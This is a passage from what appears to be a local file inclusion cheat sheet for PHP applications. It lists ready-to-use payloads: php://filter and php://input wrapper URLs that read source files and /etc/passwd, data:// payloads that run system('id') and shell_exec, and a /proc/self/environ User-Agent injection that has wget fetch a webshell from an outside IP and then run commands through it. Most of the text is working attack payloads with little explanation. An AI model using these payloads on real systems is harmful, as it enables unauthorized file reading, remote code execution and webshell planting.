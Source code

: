 ## 4. Using the PHP wrapper php://filter

```
http://localhost/include.php?page=php://filter/convert.base64-encode/resource=secret.inc
http://localhost/include.php?page=php://filter/read=convert.base64-encode/resource=secret.inc
http://localhost/include.php?page=php://filter/resource=/etc/passwd
```

## 5. Using PHP input:// stream

POST

```
/fi/?page=php://input&cmd=ls
```

## 6. Using data://text/plain;base64,command

```
data://text/plain;base64,[command encoded in base64]
or
data://text/plain,<?php shell_exec($_GET['cmd']);?>  
```

ex:

```
http://example.com/Keeper.php?page=data://text/plain;base64,JTNDJTNGc3lzdGVtJTI4JTI3aWQlMjclMjklM0IlM0YlM0U=  
http://example.com/Keeper.php?page=data://text/plain,<?system('id');?>  
```

## 7. Using /proc/self/environ

Another popular technique is to manipulate the Process Environ file. In a nutshell, when a process is created and has an open file handler then a file descriptor will point to that requested file.

Our main target is to inject the /proc/self/environ file from the HTTP Header: User-Agent. This file hosts the initial environment of the Apache process. Thus, the environmental variable User-Agent is likely to appear there.

```
curl http://secureapplication.example/index.php?view=../../../proc/self/environ
```

response:

```
HTTP_USER_AGENT="curl/" </body>
```

so we can inject something like a webshell

```
curl -H "User-Agent: <?php system('wget http://10.10.14.6/webshell.php -O webshell.php')" http://target.com

curl http://target.com/webshell.php&cmd=ls

```
